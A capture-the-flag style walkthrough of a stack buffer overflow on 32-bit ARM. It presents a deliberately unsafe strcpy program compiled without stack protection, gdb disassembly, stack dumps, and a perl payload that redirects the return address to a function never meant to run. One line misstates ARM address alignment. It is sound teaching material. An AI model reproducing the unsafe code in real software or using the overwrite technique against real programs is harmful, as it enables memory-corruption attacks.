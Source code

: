 # ARM Buffer overflow

## file

challenge21.c:
```c
#include <stdio.h>
#include <stdlib.h>

void IShouldNeverBecalled() {
    printf("I should never be called");
    fflush(stdout);
    exit(0);
}

void vulnerable(char *arg) {
    char buff[16];
    strcpy(buff, arg);
}

void main(int argc, char **argv) {
    vulnerable(argv[1]);
    return(0);
}
```

Compile it:
```sh
gcc -ggdb challenge21.c -o challenge21 -fno-stack-protector
```


## Info gathering

Lets check the main function:
```sh
$ gdb challenge21

(gdb) disas main
Dump of assembler code for function main:
   0x000104f4 <+0>:     push    {r7, lr}
   0x000104f6 <+2>:     sub     sp, #8
   0x000104f8 <+4>:     add     r7, sp, #0
   0x000104fa <+6>:     str     r0, [r7, #4]
   0x000104fc <+8>:     str     r1, [r7, #0]
   0x000104fe <+10>:    ldr     r3, [r7, #0]
   0x00010500 <+12>:    adds    r3, #4
   0x00010502 <+14>:    ldr     r3, [r3, #0]
   0x00010504 <+16>:    mov     r0, r3
   0x00010506 <+18>:    bl      0x104d8 <vulnerable>
   0x0001050a <+22>:    nop
   0x0001050c <+24>:    adds    r7, #8
   0x0001050e <+26>:    mov     sp, r7
   0x00010510 <+28>:    pop     {r7, pc}
End of assembler dump.
```

Lets check the vulnerable function:
```
(gdb) disas vulnerable
Dump of assembler code for function vulnerable:
   0x000104d8 <+0>:     push    {r7, lr}
   0x000104da <+2>:     sub     sp, #24
   0x000104dc <+4>:     add     r7, sp, #0
   0x000104de <+6>:     str     r0, [r7, #4]
   0x000104e0 <+8>:     add.w   r3, r7, #8
   0x000104e4 <+12>:    ldr     r1, [r7, #4]
   0x000104e6 <+14>:    mov     r0, r3
   0x000104e8 <+16>:    blx     0x10394 <strcpy@plt>
   0x000104ec <+20>:    nop
   0x000104ee <+22>:    adds    r7, #24
   0x000104f0 <+24>:    mov     sp, r7
   0x000104f2 <+26>:    pop     {r7, pc}
End of assembler dump.
(gdb)
```

## Overflow

```
(gdb) b *0x000104f2
Breakpoint 1 at 0x104f2: file vuln.c, line 13.

(gdb) run `perl -e 'print "AAAABBBBCCCCDDDDEEEEaaaa"'`
Starting program: /root/challenges/challenge21/challenge21 `perl -e 'print "AAAABBBBCCCCDDDDEEEEaaaa"'`

Breakpoint 2, 0x000104f2 in vulnerable (arg=0xfffef93f "AAAABBBBCCCCDDDDEEEEaaaa") at challenge21.c:13
13      }

(gdb) x/16x $sp
0xfffef6c8:     0x45454545      0x61616161      0xfffef800      0x00000002
0xfffef6d8:     0x00000000      0xf76f28ab      0xf77c4000      0xfffef834
0xfffef6e8:     0x00000002      0x000104f5      0xf77f0000      0xaaaaaaab
0xfffef6f8:     0x1c59d9a6      0x14c8073b      0x0000012c      0x00000000
```

Compare it with original execution (without overflow):
```
(gdb) run `perl -e 'print "AAAABBBBCCCCDDDD"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge21/challenge21 `perl -e 'print "AAAABBBBCCCCDDDD"'`

Breakpoint 2, 0x000104f2 in vulnerable (arg=0xfffef947 "AAAABBBBCCCCDDDD") at challenge21.c:13
13      }
(gdb) x/16x $sp
0xfffef6c8:     0xfffef600      0x0001050b      0xfffef834      0x00000002
0xfffef6d8:     0x00000000      0xf76f28ab      0xf77c4000      0xfffef834
0xfffef6e8:     0x00000002      0x000104f5      0xf77f0000      0xaaaaaaab
0xfffef6f8:     0x5695adca      0x5e047357      0x0000012c      0x00000000
```

Check address `0x0001050b`:
```
(gdb) disas main
Dump of assembler code for function main:
   0x000104f4 <+0>:     push    {r7, lr}
   0x000104f6 <+2>:     sub     sp, #8
   0x000104f8 <+4>:     add     r7, sp, #0
   0x000104fa <+6>:     str     r0, [r7, #4]
   0x000104fc <+8>:     str     r1, [r7, #0]
   0x000104fe <+10>:    ldr     r3, [r7, #0]
   0x00010500 <+12>:    adds    r3, #4
   0x00010502 <+14>:    ldr     r3, [r3, #0]
   0x00010504 <+16>:    mov     r0, r3
   0x00010506 <+18>:    bl      0x104d8 <vulnerable>
   0x0001050a <+22>:    nop
   0x0001050c <+24>:    adds    r7, #8
   0x0001050e <+26>:    mov     sp, r7
   0x00010510 <+28>:    pop     {r7, pc}
End of assembler dump.
```

Seems the address on the stack is pointing to the `nop` at address `0x0001050a`.
But the saved address is `0x0001050b`, so 1 byte higher. Lets keep this in mind.

Note that ARM is 4 byte aligned (32 bit), so valid addresses always end with 0, 4, 8, b.
But in thumb mode, instructinos are 2 byte (16 bit).

## Execute another function

get address of IShouldNeverBecalled():
```
(gdb) disas IShouldNeverBecalled
Dump of assembler code for function IShouldNeverBecalled:
   0x000104b0 <+0>:     push    {r7, lr}
   0x000104b2 <+2>:     add     r7, sp, #0
   0x000104b4 <+4>:     movw    r0, #1376       ; 0x560
   0x000104b8 <+8>:     movt    r0, #1
   0x000104bc <+12>:    blx     0x1037c <printf@plt>
   0x000104c0 <+16>:    movw    r3, #4148       ; 0x1034
   0x000104c4 <+20>:    movt    r3, #2
   0x000104c8 <+24>:    ldr     r3, [r3, #0]
   0x000104ca <+26>:    mov     r0, r3
   0x000104cc <+28>:    blx     0x10388 <fflush@plt>
   0x000104d0 <+32>:    movs    r0, #0
   0x000104d2 <+34>:    blx     0x103b8 <exit@plt>
```

The address we want to jump to is `0x000104b0`. But, as we have seen in the previous
chapter, we need to increment it by one byte: `0x000104b1`.

Lets try this:

```
(gdb) run `perl -e 'print "AAAABBBBCCCCDDDDEEEE\xb1\x04\x01"'`
Starting program: /root/challenges/challenge21/challenge21 `perl -e 'print "AAAABBBBCCCCDDDDEEEE\xb1\x04\x01"'`

I should never be called
```

## Conclusion

Here, Ubuntu 16.04 on arm 32 bit behaves pretty much exactly the same as x86.
Stack grown down, we have little endianness, and the return address is on the stack.
The only big difference is the ARM assembly codes.
